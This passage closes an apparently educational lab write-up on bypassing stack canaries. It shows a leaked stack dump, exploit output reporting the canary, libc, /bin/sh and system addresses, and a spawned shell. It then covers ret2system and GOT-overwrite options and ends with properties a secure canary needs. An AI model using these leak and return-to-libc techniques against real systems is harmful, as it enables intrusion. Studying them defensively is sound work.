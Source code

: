 	ffffffffffffcb9c.f7df9008f7feffaa.f7e062e5f7fe1f60.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.f7fa5d002e786c6c.f7ffdad000000000.ffffcdc0ffffcd78.f7e5e3e9f7fe2b4b.f7fe2a70f7fa5000.108048200.804a014f7ffd918.f7ffdad0f7fe78a2.1f7fd34a0.1.f7fa5d60f7e532d8.0.f7ffd00000000000.ffffcd70080482a0.0.f7e350cbf7df9798.f7fa500000000000.ffffcdb8f7fa5000.f7fa5d60f7e3c696.ffffcda4080487a2.f7fa5d60f7e3c670.f7e3c675f7ffd918.80487a214b94100.

	[+] Canary value is 0x14b94100
	[+] Mid of Stack is @ 0xffffcb9c
	[+] Beginning of Stack is -512 from that: 0xffffc99c
	[+] malloc+26 is @ 0xf7feffaa
	[+] This puts libc base address @ 0xf7df9000
	[+] /bin/sh located @ offset 0x15ba0b
	[+] Shell address is 0xf7f54a0b
	[+] system@libc has offset: 0x3ada0
	[+] This puts the system call to 0xf7e33da0
	[*] Switching to interactive mode
	$ whoami
	lab
	$

We can see in the output that control flow got redirected and popped us a shell!
So what do we do with this information now?

If we assume we have a possible information leak and can get the canary value at all times, bypassing them is not a problem.
Redirection/Changing the control flow of a program is the next big step.

   * Just pulling it back to the Stack will not work if DEP is enabled.
   * Overwriting the GOT is only easily possible if RELRO is only partially enabled, and leaking the canary might not even be needed in this use case,
   * Otherwise good ol' ret2system still works wonders :)


## Conclusion
The covered approach was first implemented over 20 years ago.
For such an early adaption the security aspect was quite high.
But which implications for canaries must be fulfilled if they want to be viable?
We kinda showed that by focusing on their weaknesses!

To be secure, a canary must ensure at least the following properties:

    * be not predictable (must be generated from a source with good entropy)    => depends on the used random generator!
    * must be located in a non-accessible location                              => we were able to access it!
    * cannot be brute-forced                                                    => goes hand in hand with the argument before and was not true!
    * should always contain at least one termination character                  => currently depends on the used canary, so not always the case!
